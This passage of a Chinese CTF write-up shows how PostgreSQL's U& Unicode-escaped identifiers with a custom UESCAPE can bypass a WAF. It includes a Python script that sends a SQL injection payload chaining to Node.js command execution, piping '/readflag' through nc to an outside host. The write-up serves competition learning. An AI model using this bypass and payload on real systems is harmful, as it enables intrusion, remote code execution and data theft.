 #### 法二：

主要思路是通过 Postgre 的查询语法的特性绕过 WAF 的过滤。

[https://www.postgresql.org/docs/9.6/static/sql-syntax-lexical.html](https://www.postgresql.org/docs/9.6/static/sql-syntax-lexical.html)

>  A variant of quoted identiﬁers allows including escaped Unicode characters identiﬁed by their code points. This variant starts with U& (upper or lower case U followed by ampersand) immediately before the opening double quote, without any spaces in between, for example U&"foo". (Note that this creates an ambiguity with the operator &. Use spaces around the operator to avoid this problem.) Inside the quotes, Unicode characters can be speciﬁed in escaped form by writing a backslash followed by the four- digit hexadecimal code point number or alternatively a backslash followed by a plus sign followed by a six-digit hexadecimal code point number.
>
>  If a diﬀerent escape character than backslash is desired, it can be speciﬁed using the UESCAPE clause after the string

1. Postgres ⽀持将16进制的值转为 Unicode 字符；
2. 在将 16 进制的值转为 Unicode 字符的时候⽀支持自定义转义符，即可以将默认的 \ 换成其他字符。

```sql
select 'test' as U&"\0031\0032";//test
select 'test' as U&"!0031!0032" uescape '!';//test
```

这样就可以将关键字使用16进制转Unicode的方式来绕过，然后使用`\t`来代替空格。

```python
from random import randint
import requests

payload = """','')returning(1)as\tU&"!005c'!002f!002a"uescape'!',(2)as\tU&"!005c'!002a!002f-(a=`child_process`)!002f!002a"uescape'!',(3)as\tU&"!005c'!002a!002f-(b=`!002freadflag|nc!0020vg.wdeil.xyz!002065502`)!002f!002a"uescape'!',(4)as\tU&"!005c'!002a!002f-console.log(process.mainModule.require(a).exec(b))]=1!002f!002f"uescape'!'; """

username = str(randint(1, 65535))+str(randint(1, 65535))+str(randint(1, 65535))
data = {
            'username': username+payload, 
            'password': 'AAAAAA'
        }
print 'ok'
r = requests.post('http://13.113.21.59:31337/reg', data=data);
print r.content
```



参考：

1. https://github.com/orangetw/My-CTF-Web-Challenges/blob/master/hitcon-ctf-2017/sql-so-hard/exploit.py
2. https://github.com/sorgloomer/writeups/blob/master/writeups/2017-hitcon-quals/sql-so-hard.md
3. wdeil的解析

